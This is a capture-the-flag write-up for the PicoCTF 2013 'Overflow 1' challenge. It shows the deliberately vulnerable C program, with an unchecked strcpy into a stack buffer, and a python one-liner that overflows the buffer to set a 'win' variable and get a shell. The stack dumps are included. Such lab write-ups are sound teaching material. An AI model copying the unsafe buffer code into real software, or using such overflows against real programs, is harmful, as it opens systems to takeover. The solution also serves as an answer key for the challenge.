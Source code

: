 # PicoCTF 2013: Overflow 1

**Category:** Binary Exploitation
**Points:** 90
**Description:**

>Stack overflows are the most basic binary exploitation technique, but they
>take a lot of skill to master. If you already know some C, these problems can
>help acquaint you with stacks and binary exploitation in general.

>Problem available on the shell machine in
>/problems/stack_overflow_1_3948d17028101c40 , downloadable [here](https://2013.picoctf.com/problems/overflow1-3948d17028101c40) with source
>[here](https://2013.picoctf.com/problems/overflow1-3948d17028101c40.c).

>If you solve the problem you will be able to read the key file by running

> cat /problems/stack_overflow_1_3948d17028101c40/key

>on the PicoCTF shell machine

>**Hint:**n general, the compiler will put things on the stack in the order
>they appear in the code. Also google 'endianness'

## Write-up

Looking at the source, we can see a few things:
```
void vuln(int tmp, char *str) {
    int win = tmp;
    char buf[64];
    strcpy(buf, str);
    dump_stack((void **) buf, 23, (void **) &tmp);
    printf("win = %d\n", win);
    if (win == 1) {
        execl("/bin/sh", "sh", NULL);
    } else {
        printf("Sorry, you lose.\n");
    }
    exit(0);
}

int main(int argc, char **argv) {
    if (argc != 2) {
        printf("Usage: stack_overwrite [str]\n");
        return 1;
    }

    uid_t euid = geteuid();
    setresuid(euid, euid, euid);
    vuln(0, argv[1]);
    return 0;
}
```

First, our input is a command line argument to the program. Second, if we can
set the win variable equal to 1, we'll get a shell! Let's dive in.

```
$ ./overflow1-3948d17028101c40 $(python -c 'print "A"*64 + "B"')
Stack dump:
0xffa81994: 0xffa82845 (second argument)
0xffa81990: 0x00000000 (first argument)
0xffa8198c: 0x0804870f (saved eip)
0xffa81988: 0xffa819b8 (saved ebp)
0xffa81984: 0xf779c000
0xffa81980: 0xf76a8a00
0xffa8197c: 0x00000042
0xffa81978: 0x41414141
0xffa81974: 0x41414141
0xffa81970: 0x41414141
0xffa8196c: 0x41414141
0xffa81968: 0x41414141
0xffa81964: 0x41414141
0xffa81960: 0x41414141
0xffa8195c: 0x41414141
0xffa81958: 0x41414141
0xffa81954: 0x41414141
0xffa81950: 0x41414141
0xffa8194c: 0x41414141
0xffa81948: 0x41414141
0xffa81944: 0x41414141
0xffa81940: 0x41414141
0xffa8193c: 0x41414141 (beginning of buffer)
win = 66
Sorry, you lose.
```
You'll see that if we fill up our buffer ("A"\*64) and andd one more letter,
the value of win gets changed. For those of you who don't know, the ascii value
of "B" is 66, meaning we have control over the win variable. All we have to do
is submit a character with an ascii value of 1. Since this isn't printable,
we're going to use escape sequences in python.
```
$ ./overflow1-3948d17028101c40 $(python -c 'print "A"*64 + "\x01"')
Stack dump:
0xff828874: 0xff829848 (second argument)
0xff828870: 0x00000000 (first argument)
0xff82886c: 0x0804870f (saved eip)
0xff828868: 0xff828898 (saved ebp)
0xff828864: 0xf77b7000
0xff828860: 0xf76c3aa7
0xff82885c: 0x00000001
0xff828858: 0x41414141
0xff828854: 0x41414141
0xff828850: 0x41414141
0xff82884c: 0x41414141
0xff828848: 0x41414141
0xff828844: 0x41414141
0xff828840: 0x41414141
0xff82883c: 0x41414141
0xff828838: 0x41414141
0xff828834: 0x41414141
0xff828830: 0x41414141
0xff82882c: 0x41414141
0xff828828: 0x41414141
0xff828824: 0x41414141
0xff828820: 0x41414141
0xff82881c: 0x41414141 (beginning of buffer)
win = 1
$
```

The "\x01" in python is just a way for us to supply a non printable character.


## Other write-ups and resources

* none yet
